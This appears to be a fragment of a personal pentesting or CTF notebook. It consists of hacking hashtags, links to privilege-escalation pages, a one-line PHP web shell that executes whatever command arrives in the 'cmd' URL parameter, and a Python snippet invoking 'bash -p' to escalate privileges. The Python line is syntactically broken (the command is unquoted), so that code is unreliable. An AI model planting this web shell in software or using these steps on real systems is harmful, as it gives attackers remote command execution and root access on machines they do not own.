 
---

#WebShell #RCE #EthicalHacking #CyberSecurity #Pentesting #InfoSec #CommandInjection #SecurityTesting #RedTeam #Exploit #HackingÉtico #Python #PHP #PrivilegeEscalation #ReverseShell #CyberAttack #PenetrationTesting #CTF #BugBounty #Vulnerability #BlackBoxTesting #SecurityResearch #HackThePlanet #OSCommandInjection #CyberSecCommunity #ExploitDevelopment

---

<?php echo shell_exec($_GET['cmd']); ?>


`python3 -c "import sys; print(sys.path)"`


```python
import os

os.system(bash -p) 
```


**[[2- escalada de privilegios]]**
**[[1- privilege scalation basic]]**
